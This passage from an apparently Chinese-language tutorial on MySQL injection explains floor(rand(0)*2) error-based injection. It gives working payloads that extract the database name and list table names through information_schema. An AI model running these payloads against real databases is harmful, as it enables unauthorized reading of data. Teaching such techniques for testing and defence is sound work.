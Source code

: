 查询第三条记录，别名x产生键值0，键值0不存在临时表，执行插入，别名x再次执行得键值1，由于1存在于临时表，那么插入之后如下表所示

| COUNT | x |
| --- | --- |
| 2 | 1 |
| 1 | 1 |

由于数据库主键唯一性，现在临时表中存在两个键值为1，主键冗余，所以报错
由于数据库报错会将报错原因展示出来，故利用报错来实现注入
由上知，要保证floor报错注入，那么必须 保证数据库必须大于三条数据

- 取数据库
```sql
SELECT * FROM users WHERE id = 1 AND (SELECT 1 from 
(SELECT count(*),concat(0x23,
database(),
0x23,floor(rand(0)*2)) as x from information_schema.`COLUMNS` GROUP BY x) 
as y)
```
由于 and 后要跟1或者0，所以构造sql语句select 1 ，其中 concat()函数是用来连接字符串的函数，因为information_schema.'columns'的数据是大于3条，所以会出现报错，报错结果或将别名x的信息展示出来，展示信息为#(数据库名称)#1冗余

![image.png](./MySQL注入基础.assets/2023_05_19_10_41_15_m6lHPBfk.png)



- 爆表
```sql
SELECT * FROM users WHERE id = 1 AND (SELECT 1 from 
(SELECT count(*),concat(0x23,
(SELECT table_name from information_schema.`TABLES` WHERE table_schema = database() LIMIT 0,1),
0x23,floor(rand(0)*2)) as x 
from information_schema.`COLUMNS` GROUP BY x) 
as y)
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_16_HlSxkWPY.png)
